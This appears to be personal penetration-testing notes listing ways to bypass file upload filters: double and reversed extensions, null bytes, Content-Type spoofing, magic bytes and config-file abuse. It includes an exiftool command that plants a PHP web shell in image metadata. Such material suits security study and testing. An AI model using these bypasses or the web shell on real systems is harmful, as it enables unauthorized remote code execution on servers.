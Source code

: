 # File Upload exploitation
1. Use double extension (ex: .jpg.php)
2. Use reverse double extension (useful to exploit Apache misconfigurations where anything with extension .php, but not necessarily ending in .php will execute code): .php.jpg
3. Mix uppercase and lowercase to bypass extension restriction (ex : .pHp, pHP5, etc...)
4. Null byte (works well against pathinfo())
	- .php%00.gif
	- .php\x00.gif
	- .php%00.png
	- .php\x00.png
	- .php%00.jpg
	- .php\x00.jpg
5. Special characters
	- file.php...... (In Windows when a file is created with dots at the end those will be removed)
	- file.php%20
6. Mime type, change Content-Type :
	- Content-Type : image/gif
	- Content-Type : image/png
	- Content-Type : image/jpeg
![[FileUpload_Content-type_1.png]]
![[FileUpload_COntent-type_2.png]]
7. Magic Bytes (GIF89, GIF89a)
![[FileUpload_Image-Size-Validation-Bypass.png]]
8. Picture Upload with LFI
	- Picture Metadata, hide the payload inside a comment tag in the metadata.
	```bash
	exiftool -Comment='<?php system($_GET['cmd']); ?>' id.php.png
	```
	- It is also possible to hide the PHP code directly inside the image (Put it in the middle of the image)
	![[Pasted image 20210726113936.png]]
	- As we can see, we code execution
	![[Pasted image 20210726114100.png]]
9. Configuration files
	- .htaccess
	- web.config
	- httpd.conf
	- _init_.py